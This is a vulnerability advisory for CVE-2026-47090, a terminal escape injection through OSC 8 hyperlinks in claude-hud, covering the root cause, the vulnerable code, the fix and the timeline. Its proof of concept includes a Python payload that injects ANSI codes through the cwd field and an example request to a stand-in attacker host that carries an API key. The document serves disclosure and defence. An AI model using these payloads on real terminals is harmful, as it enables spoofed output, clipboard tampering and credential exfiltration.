



# CVE-2026-47090 — Terminal Injection via OSC 8 Hyperlinks

## Summary

In claude-hud, the `hyperlink()` function builds OSC 8 terminal escape sequences using raw values from `cwd` and `branchUrl` with no control character stripping or encoding. If either of those values contains an ESC+backslash sequence, it terminates the OSC 8 sequence early and anything after it — including ANSI escape codes — executes directly in the terminal. An attacker who controls the working directory name or the git remote URL can inject arbitrary terminal codes, forge prompts, change text colors, or write to the clipboard via OSC 52. Clicking the branch hyperlink can also silently send an outbound HTTP request to a server the attacker controls.

---

## Metadata

| Field             | Value                                                                 |
|-------------------|-----------------------------------------------------------------------|
| CVE ID            | CVE-2026-47090                                                        |
| GHSA ID           | N/A (assigned by VulnCheck)                                           |
| Severity          | **Low**                                                               |
| CVSS v4 Score     | 2.4 — `CVSS:4.0/AV:L/AC:L/AT:N/PR:L/UI:A/VC:N/VI:N/VA:N/SC:L/SI:L/SA:N` |
| CWE               | CWE-150: Improper Neutralization of Escape, Meta, or Control Sequences |
| Affected Versions | `<= 0.0.12`                                                           |
| Patched Version   | commit `234d9aa` (post-0.0.12)                                        |
| Affected Repo     | [jarrodwatts/claude-hud](https://github.com/jarrodwatts/claude-hud)  |
| Report Date       | 19 April 2026                                                         |
| Publish Date      | 18 May 2026                                                           |

---

## Vulnerability Details

### Root Cause

The `hyperlink()` function in `src/render/lines/project.ts` constructs OSC 8 terminal hyperlinks by embedding URI values verbatim between the escape sequence delimiters. No control characters are stripped, no scheme allowlist is checked, and no encoding is applied before the value is written to the terminal output:

```typescript
// project.ts:10-13 — no sanitisation, no validation
function hyperlink(uri: string, text: string): string {
  const esc = '\x1b';
  const st = '\\';
  return `${esc}]8;;${uri}${esc}${st}${text}${esc}]8;;${esc}${st}`;
  //                   ^^^^ uri output verbatim
}
```

Three independent injection points feed into this function:

- `ctx.stdin.cwd` embedded directly as a `file://` URL at `project.ts:40`
- `ctx.gitStatus.branchUrl` embedded as the branch hyperlink at `project.ts:51`
- `branch` used in `branchUrl` construction at `git.ts:132` with no `encodeURIComponent()`

If `cwd` contains `\x1b\x5c` (ESC+backslash), it closes the OSC 8 sequence early. Any bytes that follow execute as raw ANSI codes in the terminal. An attacker who can influence the git remote URL can also set it to an arbitrary HTTPS endpoint — clicking the branch name in the HUD sends a GET request to that server.

### Affected Files

`src/render/lines/project.ts`, lines 10–13 (sink), 35 and 45 (injection points)
`src/git.ts`, line 132 (branchUrl construction)

### Vulnerable Code

```typescript
// project.ts:35 — cwd embedded raw, no path.resolve(), no control char strip
projectPart = hyperlink(`file://${ctx.stdin.cwd}`, coloredProject);

// project.ts:45 — branchUrl embedded raw
const linkedBranch = ctx.gitStatus.branchUrl
  ? hyperlink(ctx.gitStatus.branchUrl, coloredBranch) : coloredBranch;

// git.ts:132 — branch name not encoded
branchUrl = `${httpsBase}/tree/${branch}`;
```

---

## Proof of Concept

**Inject ANSI codes via cwd** — pass a cwd value containing an ESC+backslash to close the OSC 8 sequence early:

```python
import json
ESC = '\x1b'
BACKSLASH = chr(92)
payload = {
  'model': {'display_name': 'Opus'},
  'context_window': {'current_usage': {'input_tokens': 45000}, 'context_window_size': 200000},
  'cwd': '/tmp/poc' + ESC + BACKSLASH + ESC + '[31m INJECTED_RED_TEXT ' + ESC + '[0m'
}
print(json.dumps(payload))
```

Pipe this into `node dist/index.js`. The injected `ESC[31m` executes and renders red text in the terminal.





**Branch URL exfiltration** — set the git remote to an attacker server with a query string. Clicking the branch name in the HUD sends:

```
GET https://attacker.example.com/collect?apikey=sk-ant-abc123&repo=/tree/master
```



---

## Impact

An attacker who can control the working directory name (for example by getting the user to open a project in a crafted directory) or the git remote URL can inject arbitrary ANSI escape codes into the terminal every time the HUD refreshes. Practical outcomes include forging prompts, changing visible terminal text, writing to the clipboard via OSC 52, and triggering outbound requests when hyperlinks are clicked. On systems with OSC 52 support this can silently overwrite clipboard contents.

---

## Fix

Fixed in commit [`234d9aa`](https://github.com/jarrodwatts/claude-hud/commit/234d9aad919b51326a43bcf90b45ae35c23afc30) by [jarrodwatts](https://github.com/jarrodwatts), PR [#487](https://github.com/jarrodwatts/claude-hud/pull/487).

Three changes were made:

**1. Control character stripping pattern** applied to all display values before they reach the terminal:

```typescript
// Added — strips C0/C1 controls and Unicode bidirectional override characters
const CONTROL_AND_BIDI_PATTERN =
  /[\u0000-\u001F\u007F-\u009F\u061C\u200E\u200F\u202A-\u202E\u2066-\u2069\u206A-\u206F]/g;

function sanitizeDisplayText(value: string): string {
  return value.replace(CONTROL_AND_BIDI_PATTERN, '');
}
```

**2. `safeHyperlink()` replaces direct `hyperlink()` calls** — validates the scheme and sanitises the URI before embedding it:

```typescript
// Before — raw uri passed directly
projectPart = hyperlink(`file://${ctx.stdin.cwd}`, coloredProject);

// After — scheme validated, control chars stripped, resolved via pathToFileURL
function safeHyperlink(uri: string | undefined | null, text: string): string {
  if (!uri) return text;
  const sanitizedUri = sanitizeDisplayText(uri);
  try {
    const parsed = new URL(sanitizedUri);
    if (parsed.protocol !== 'https:' && parsed.protocol !== 'file:') return text;
    return hyperlink(parsed.toString(), text);
  } catch { return text; }
}

projectPart = safeHyperlink(getFileHref(ctx.stdin.cwd), coloredProject);
```

**3. Branch name URL-encoded** in `git.ts`:

```typescript
// Before
branchUrl = `${httpsBase}/tree/${branch}`;

// After
branchUrl = `${httpsBase}/tree/${encodeURIComponent(branch)}`;
```

---

## Timeline

- **19 April 2026** — Vulnerability discovered and privately reported to jarrodwatts
- **22 April 2026** — Fix merged, commit [`234d9aa`](https://github.com/jarrodwatts/claude-hud/commit/234d9aad919b51326a43bcf90b45ae35c23afc30), PR [#487](https://github.com/jarrodwatts/claude-hud/pull/487)
- **18 May 2026** — CVE-2026-47090 published by VulnCheck

---

## References

- [VulnCheck Advisory](https://www.vulncheck.com/advisories/claude-hud-terminal-injection-via-osc-8-hyperlinks)
- [GitHub Issue #485](https://github.com/jarrodwatts/claude-hud/issues/485)
- [Fix — PR #487](https://github.com/jarrodwatts/claude-hud/pull/487)
- [Fix — commit 234d9aa](https://github.com/jarrodwatts/claude-hud/commit/234d9aad919b51326a43bcf90b45ae35c23afc30)
- [CVE-2026-47090 on MITRE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2026-47090)
- [jarrodwatts/claude-hud](https://github.com/jarrodwatts/claude-hud)